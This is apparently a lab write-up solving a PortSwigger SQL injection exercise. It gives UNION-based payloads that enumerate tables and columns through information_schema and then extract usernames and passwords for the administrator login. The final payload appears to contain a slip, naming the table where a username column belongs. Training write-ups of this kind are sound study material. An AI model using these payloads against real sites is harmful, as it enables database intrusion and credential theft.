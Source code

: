 # SQL injection attack, listing the database contents on non-Oracle databases
**Title:**  SQL injection attack, listing the database contents on non-Oracle databases. [Go](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
**Description:** This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Preface

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query  `information_schema.tables`  to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE
-------- | ----- | ------------ | ---------
MyDatabase | dbo | Products | BASE TABLE
MyDatabase | dbo | Users | BASE TABLE
MyDatabase | dbo | Feedback | BASE TABLE

This output indicates that there are three tables, called  `Products`,  `Users`, and  `Feedback`.

You can then query  `information_schema.columns`  to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE
-------- | ----- | ------------ | --------- | ---------
MyDatabase | dbo | Users | UserId | int
MyDatabase | dbo | Users | Username | varchar
MyDatabase | dbo | Users | Password | varchar

This output shows the columns in the specified table and the data type of each column.

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. Notably, in the context of this shopping application, we are particularly interested in the product category functionality, where the backend logic is designed to query the submitted data.

### My thought
As we all know for a  `UNION`  query to work, two key requirements must be met:

_The individual queries must return the same number of columns._
_The data types in each column must be compatible between the individual queries._
Determining __number of columns present in the database table.__ Here we will use `ORDER BY` clause. After invoking `' ORDER BY 3#` we got `Internal Server Error`. That means this database has two columns.

![poc_listing_db_content_non_oracle_db.png](../images/listing_db_content_non_oracle_db.png)

Finding _column with string datatype._ After invoking `' UNION SELECT 'a','a'#` we got no error. Means both column is string datatype.

![poc_listing_db_content_string.png](../images/listing_db_content_string.png)

![poc_listing_db_content_string_01.png](../images/listing_db_content_string_01.png)

**Tip:** As you can see from this lab, there is _product name_ with their _description_ and both are string data type. This is a strong indication that the table has two columns & both of which are string data types.

### Payload
At first enumerate table name using `information_schema`. `' UNION SELECT table_name, NULL FROM information_schema.tables--` helps us with this. 

![pc_listing_db_content_table_names.png](../images/listing_db_content_table_names.png)

 Now find out the number of columns in this table. `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_gkzlgj'--` helps us with this.

 ![poc_listing_db_content_username_password_column.png](../images/listing_db_content_username_password_column.png)
 
And at last enumerate the content in these two columns. `' UNION SELECT users_gkzlgj, password_zvekho FROM users_gkzlgj--` helps us with this.
 
![poc_listing_db_content_username_password.png](../images/listing_db_content_username_password.png)

**Understanding the Logic:**

1. Data Schema Analysis

Initiate the reconnaissance process by first determining the number of columns in the database and their respective data types. This critical step lays the foundation for further investigation.

2. Table Enumeration

Employ the `' UNION SELECT table_name, NULL FROM information_schema.tables--` query to systematically retrieve a comprehensive list of all tables within the database. This meticulous process allows us to identify the specific table of interest, namely `users_gkzlgj`.

3. Column Enumeration

Once the target table `users_gkzlgj` has been identified, proceed to enumerate its column names. Utilize the query `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_gkzlgj'--` to meticulously gather information about the structure of this table.

4. Data Extraction

Conclude the enumeration process by extracting the contents of the `users_gkzlgj` table. Employ the query `' UNION SELECT users_gkzlgj, password_zvekho FROM users_gkzlgj--` to obtain the specific data of interest, including usernames and corresponding password hashes.

 **Note:** Notice that in the process of solving the lab we didn’t confirm where the vulnerability exists or not. As from the lab description we know the _product category filter_ parameter is vulnerable to SQL injection. We did not do any confirmation test or something like that. But in a real world scenario you have to first confirm the vulnerability then go for further exploitation.
